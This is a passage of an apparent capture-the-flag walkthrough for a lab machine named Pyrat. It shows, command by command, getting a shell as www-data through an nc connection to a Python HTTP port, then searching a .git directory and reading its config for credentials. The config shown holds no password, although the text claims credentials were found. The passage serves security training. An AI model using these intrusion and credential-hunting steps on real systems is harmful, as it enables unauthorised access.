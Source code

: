 Surprisingly, it says us to *try a more basic connection*.

This server is under **SimpleHTTP** so it means that it was started using `python -m http.server` on the default port so `8000`.

What could be a more basic connection ? Well probably by using `nc` ?

```shell
$ nc $TARGET 8000
shell
$ ls
ls
ls: cannot open directory '.': Permission denied
$ pwd
pwd
/root
$ whoami
whoami
www-data
```

And just like this (by randomly typing *"shell"*), we got a shell as `www-data`!

So as always when I get a shell with `www-data`, I decide to execute my routine and delve into the common folders to search into, `/opt` being one of them.

In `/opt`, as a hidden directory, we can see that `git` is installed on the machine.

```shell
www-data@Pyrat:/opt/dev$ ls -a
ls -a
.  ..  .git

www-data@Pyrat:/opt/dev/.git$ ls -la
ls -la
total 52
drwxrwxr-x 8 think think 4096 Jun 21  2023 .
drwxrwxr-x 3 think think 4096 Jun 21  2023 ..
drwxrwxr-x 2 think think 4096 Jun 21  2023 branches
-rw-rw-r-- 1 think think   21 Jun 21  2023 COMMIT_EDITMSG
-rw-rw-r-- 1 think think  296 Jun 21  2023 config
-rw-rw-r-- 1 think think   73 Jun 21  2023 description
-rw-rw-r-- 1 think think   23 Jun 21  2023 HEAD
drwxrwxr-x 2 think think 4096 Jun 21  2023 hooks
-rw-rw-r-- 1 think think  145 Jun 21  2023 index
drwxrwxr-x 2 think think 4096 Jun 21  2023 info
drwxrwxr-x 3 think think 4096 Jun 21  2023 logs
drwxrwxr-x 7 think think 4096 Jun 21  2023 objects
drwxrwxr-x 4 think think 4096 Jun 21  2023 refs
```

Maybe we could find interesting information in this directory ? The good point is that we can read every file in it, so by display the `config` file, we stumble onto some **credentials** for a certain user called `think` (who owns this git repo) :

```shell
www-data@Pyrat:/opt/dev/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600
```